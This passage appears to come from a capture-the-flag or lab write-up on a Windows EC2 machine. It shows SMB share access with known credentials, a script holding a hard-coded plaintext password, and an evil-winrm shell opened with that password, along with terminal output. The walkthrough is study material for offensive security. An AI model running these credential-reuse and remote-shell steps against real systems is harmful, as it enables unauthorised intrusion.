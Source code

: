 ```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoProfile -NonInteractive -NoLogo -WindowStyle hidden -ExecutionPolicy Unrestricted "Import-Module "C:\ProgramData\Amazon\EC2-Windows\Launch\Module\Ec2Launch.psd1"; Set-Wallpaper"    
```
The second file was these

```
└─$ smbclient //54.234.92.201/Users$ -U jsmith%Password@123
Try "help" to get a list of possible commands.
smb: \> cd "jsmith/Desktop"
smb: \jsmith\Desktop\> dir
  .                                  DR        0  Thu Mar  3 14:06:59 2022
  ..                                 DR        0  Thu Mar  3 14:06:59 2022
  EC2 Feedback.website                A      527  Tue Jun 21 18:36:17 2016
  EC2 Microsoft Windows Guide.website      A      554  Tue Jun 21 18:36:23 2016
  read_appraisal_form.ps1             A      289  Thu Mar  3 14:14:03 2022

		7863807 blocks of size 4096. 2616990 blocks available
smb: \jsmith\Desktop\> get read_appraisal_form.ps1
getting file \jsmith\Desktop\read_appraisal_form.ps1 of size 289 as read_appraisal_form.ps1 (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \jsmith\Desktop\> q
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ cat read_appraisal_form.ps1  
$passwd = ConvertTo-SecureString "SuperDuperSecurePassword1!" -ASPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ("cysec\hlevi", $passwd)

Get-ChildItem -Path "c:\shares\confidential" -Include *.txt | ForEach-Object {
    Write-Out $($_.FullName)
} 
```
As you can see from second file, it contains username and password of second user
```md
cysec\hlevi:SuperDuperSecurePassword1!
```

# Priviledge Escalation
User hlevi has access to winrm into the machine.This is where I am almost miss the password of admin.You can use automation tool but for this machine it was just to keep it simple.So i will just keep it simple
```md
evil-winrm -i 54.234.92.201 -u hlevi -p SuperDuperSecurePassword1!
```
```md
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ evil-winrm -i 54.234.92.201 -u hlevi -p SuperDuperSecurePassword1!

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\hlevi\Documents> net user hlevi
User name                    hlevi
Full Name                    Hackerman Levi
Comment                      AllFortheLov3ofSh3ll!
User's comment
Country/region code          000 (System Default)
Account active               Yes
```